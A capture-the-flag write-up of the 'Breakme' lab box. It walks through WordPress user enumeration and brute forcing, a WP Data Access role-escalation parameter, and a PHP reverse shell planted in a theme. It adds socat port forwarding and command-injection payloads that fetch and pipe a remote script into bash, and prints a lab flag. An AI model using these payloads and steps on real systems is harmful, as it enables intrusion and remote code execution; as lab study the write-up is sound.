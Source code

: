 # Breakme

### Break the system
(Flags can be found at the end of this writeup)<br />
Initial nmap scan only shows port 22 and 80 open. The webserver seems just an empty apache webserver, however, a gobuster directory enumeration shows other resources:<br />
![image](https://github.com/user-attachments/assets/1862c187-c3be-4bfc-91f8-f10a88751816)<br />
Movin around on the webserver, I found a login page at `/wordpress/wp-login`. If I try to login with `admin`, I get back a response that the password for that user is wrong. This means that the `admin` user actually exists:<br  />
![image](https://github.com/user-attachments/assets/e8d5dad4-61b2-4bba-ab34-094940f871d0)<br/>
I tried bruteforcing admin account with `wpscan --url http://10.10.75.11/wordpress/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`, but it didn't work.
Next, the following command ` wpscan --url http://10.10.75.11/wordpress/ -e u,p,t` enumerates users, plugins and templates. This time wpscan found another user, bob: <br />
![image](https://github.com/user-attachments/assets/f0e43a3a-36df-478b-909e-cc0009e989f0)<br />
So now try bruteforce bob: `wpscan --url http://10.10.122.80/wordpress/wp-login.php -U bob -P /usr/share/wordlists/rockyou.txt`. <br />
![image](https://github.com/user-attachments/assets/1e20d13e-626c-495e-a5e1-dbe040bd3060)<br />
His credentials are `bob:soccer`. 
The previous wpscan showed that the website is using an older version of `WP data access`, which is 5.3.8. Searching online, I found [here](https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/) that this version is vulnerable to privilege escalation from subscriber+ to administrator. There's no explicit POC, but the exploit works as follows: 
1) On bob's account, click on `Update Profile`, and intercept the request with Burp Suite
2) Add a parameter to the request: `wpda_role[]=administrator`
3) Forward the request and become admin!
![image](https://github.com/user-attachments/assets/7f6f9ea6-e2b3-447e-8ae7-4b05392e9664)<br />
Now, to upload a reverse shell, we need to upload it in the theme's code, which is found inside `Tools->Themes File Editor`, upload the php reverse shell(I used the [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) one), open a netcat listener on the attackers machine and update the theme: <br />
![image](https://github.com/user-attachments/assets/e2598068-7ab7-4573-a0cb-ae4e2905ead2)<br />
Next, I [stabilized the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) so that i could maintain my mental integrity.<br />
Running linpaeas, it founds a set of credentials inside wordpress configuration file:<br />
![image](https://github.com/user-attachments/assets/f8e6b88d-9549-4d6b-bf3f-bd73830d8f1f)
So use the given credentials(`econor:SuP3rS3cR37#DB#P@55wd`) to log into the database `mysql -u econor -p`. In the database there are a couple of hashed passwords: <br />
![image](https://github.com/user-attachments/assets/a7d76b78-4539-4024-a637-343439d24388)<br />
We already know bob's password, let's try to crack the admin's password. The hash starts with `$P$`, this means that it is a `Phpass` hash format. I doesn't work, there must be something else. <br />
Linpeas also shows a local service at 127.0.0.1:9999. With `curl` I was able to see that it's a web service. In order to access the web page from the attacker's machine, we need to perform something called `port forwarding`:
1) In the target machine: run `socat TCP-LISTEN:8888,fork TCP:127.0.0.1:9999`
2) In the attacker machine: run `socat TCP4-LISTEN:9998,reuseaddr,fork TCP4:target_ip:8888`
So we are opening port 9998 on the attacker machine and redirecting everything coming in that port to target IP port 8888. Similarly, from the target machine, we redirect everything coming in port 8888 to localhost port 9999, thus accessing the web service. <br />
![image](https://github.com/user-attachments/assets/8d881702-0350-444b-85ed-06f9f0affb30)<br />
The "Check Target" function performs a ping command to the specified IP address. This is very likely a command injection exploit. Here's a list of special characters:<br />
`! @ # $ % ^ & * ( ) - _ = + \ | [ ] { } ; : / ? . >`. <br />
After hours of trying payloads, I found that this `|nc${IFS}10.11.85.53${IFS}5555` worked on the "check user" section. <br />
![image](https://github.com/user-attachments/assets/ef3b720f-e148-4c22-aa4d-23731faf2308)<br />
Now, to get a reverse shell, since we can't use `-`, what we can do is create a `rev.sh` file in our attacker's machine(can be found inside this folder). Next open a netcat listener on the attacker's machine, `nc -lnvp 6666`, and inject the curl command to get the rev.sh file and pipe it into bash. The final payload is this: `|curl${IFS}10.11.85.53/rev.sh|bash` :<br />
![image](https://github.com/user-attachments/assets/5efb5384-f0ed-4d03-ad29-ed0535c63592)<br />
Again, [stabilize the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal). <br />
I'm now the user `john` and got the first flag. Running again linpeas on the system, there's a SUID file inside `/home/youcef`, called `readfile`. It seems to be working like a `cat` command. If I use it to try to read something on which I don't have permissions, this is what i get: <br />
![image](https://github.com/user-attachments/assets/14814808-a0c9-4b14-aa1a-7a428f809db1)<br />
Also, it doesn't seem to be vulnerable to buffer overflow because I tried running it with really large inputs, but it never goes into segmentation fault. So I decided to analyze it using IDA (I first had to transfer it on my local machine using netcat).<br />
![image](https://github.com/user-attachments/assets/ef559c13-0022-4f04-8b3f-9100b48fdb74)<br />
At the beginning of the main function, there are three checks. The first checks that the program only takes one input from the command line. The second checks that the file_name is valid, and the third checks that the user running the binary is actually john, with id=1002. Next:<br />
![image](https://github.com/user-attachments/assets/63b003a1-c324-4778-bfe2-ae85fefac356)<br />
Here the program uses the function `_strstr` to check if the filename contains the word "flag" and the word "id_rsa". Then it checks if it's a symlink with the `lstat` function, and if it can be accessed with the `_access` function. If any of these conditions are true, then it jumps to the following block:<br />
![image](https://github.com/user-attachments/assets/f13e1d7a-1bf0-4676-aea8-0448e42dc7c8)<br />
And the program stops. If we pass all the checks, then the program goes here: <br />
![image](https://github.com/user-attachments/assets/c69142c8-7751-49ce-aef6-aac01a94f04a)<br />
Here it's opening the file with the function `_open`, and if the the function fails, it will call `__assert_fail` and the program will stop. <br />
Instead, if the file is opened correctly, the program goes here: <br />
![image](https://github.com/user-attachments/assets/40be8666-5de7-407f-8b3a-4d4f171e9874)<br />
Here the program is calling the `_read` function every 1024 bytes. It then sets the file descriptor to 1 (sdtoutput) and calls `_write`, so that the user can read the file. It then checks if the number of written bytes is zero: if it is, then the program stops; if it isn't, then it will read the next 1024 bytes.  






- What is the first flag? `5c3ea0d312568c7ac68d213785b26677`
- What is the second flag?
- What is the root flag?
